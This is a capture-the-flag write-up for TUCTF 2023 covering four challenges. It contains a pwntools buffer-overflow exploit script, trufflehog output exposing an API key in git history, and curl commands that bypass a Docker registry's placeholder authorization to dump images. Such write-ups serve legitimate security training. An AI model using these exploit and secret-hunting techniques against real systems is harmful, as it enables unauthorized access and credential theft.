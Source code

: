 
# tuctf 2023
https://tuctf.com/2023

### Index
- [Forensics](#forensics)
    - [state of the git](#state-of-the-git)
- [Pwn](#pwn)
    - [hidden values](#hidden-values)
- [Misc](#misc)
    - [silly registry](#silly-registry)
    - [secret agent](#secret-agent)


# Forensics

## state of the git
Description: <br>
given is an git repository, with an IaC (Infrastructure as Code) codebase written in Terraform.

You can search the repository for api keys with tools like [trufflehog](https://github.com/trufflesecurity/trufflehog), which will give you an digitalocean v2 API key.
```bash
# run "trufflehog filesystem ." inside git repository
🐷🔑🐷  TruffleHog. Unearth your secrets. 🐷🔑🐷

Found unverified result 🐷🔑❓
Detector Type: DigitalOceanV2
Decoder Type: BASE64
Raw result: dop_v1_07fbc880cf053a91979807dfaaf8ad5c9880abae1f8df2ccece966942af41408
File: .git/objects/95/5de908450115ce7b6892c2a58c03e7e2221a6f
Line: 60

# inspect the git object further
git cat-file -p 955de908450115ce7b6892c2a58c03e7e2221a6f 

# the flag is base64 encoded in following line:
"password": "VFVDVEZ7NzNycjRmMHJtX1M3QTczLTF5XzUzY3IzNzV9Cg==", // ZG9wX3YxXzA3ZmJjODgwY2YwNTNhOTE5Nzk4MDdkZmFhZjhhZDVjOTg4MGFiYWUxZjhkZjJjY2VjZTk2Njk0MmFmNDE0MDgK < Change this before going !
```

# Pwn

## hidden values
Description: <br>
Given is an tcp socket, to whom you can connect with netcat.

<img src="./hidden-value.png" width="200">

You need to overwrite an variable on the stack with 0xdeadbeef, through an buffer overflow to trigger the if statement and get the flag:
```python
from pwn import *

# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'

# connect
io = remote("chal.tuctf.com", 30011)

# Build the payload
payload = flat(
        b'A' * 44,
        p32(0xdeadbeef)
)

# Send the payload
io.sendlineafter(b':', payload)
io.recvall()

# bruteforce location of 0xdeadbeef locally:
#for i in range(0,100):
#    io = process('./hidden-value')
#    io.sendlineafter(b':', b'A' * i + p32(0xdeadbeef))
#    print(io.recvall().decode('latin-1'))
```


# Misc

## silly registry
Description: <br>
given is a hostname and port.

On the port runs https://distribution.github.io/distribution which is docker registry software to host docker container images. <br>
The registry uses silly authorization, which is for developing purposes and only check if the Authorization header is present and not the content.
- https://distribution.github.io/distribution/about/configuration/#silly
- https://book.hacktricks.xyz/network-services-pentesting/5000-pentesting-docker-registry
- https://github.com/Syzik/DockerRegistryGrabber

```bash
# connect with Authorization header and retrieve image list
curl -H "Authorization: anything" http://chal.tuctf.com:30003/v2/_catalog

# use docker registry grabber to enumerate 
python drg.py -A "lkas" http://chal.tuctf.com:30003/v2/ --dump_all

# the flag is one of the extracted images
```


## secret agent
Description: <br>
given is a tcp socket to whom you can connect with netcat.

Key: <br>
First you need to find the correct key, which is "HAHAHAHAHHAHAHAHAHAHAH"

Challenge1: <br>
Script for mapping the cities with their costs and calculating the cheapest path is [agent.py](./agent.py). The correct path with a cost of 20 is ['Attaya', 'Charity', 'Emell', 'Iyona', 'Kepliker', 'Osiros', 'Rhenora', 'Shariot']. 

Challenge2: <br>
you get text in the braille alphabet " ⠥⠞⠀⠞⠉⠀⠎⠊⠋⠀⠍⠁⠀⠵⠁⠀⠝⠊⠀⠺⠊⠛⠀⠇⠇⠊⠀⠕⠉⠀⠍⠀⠑⠀⠃⠀⠅⠉⠁⠀⠛⠁⠀⠝⠊⠁". <br> 
When decoding it with https://www.dcode.fr/braille-alphabet you get "UT TC SIF MA ZA NI WIG LLI OC M E B KCA GA NIA". <br>
Which is little endian, so you need to read each chunck from back to front, which results to TUCTFISAMAZINGIWILLCOMEBACKAGAIN.

Challenge3: <br>
Enter TUCTFISAMAZINGIWILLCOMEBACKAGAIN, and get the flag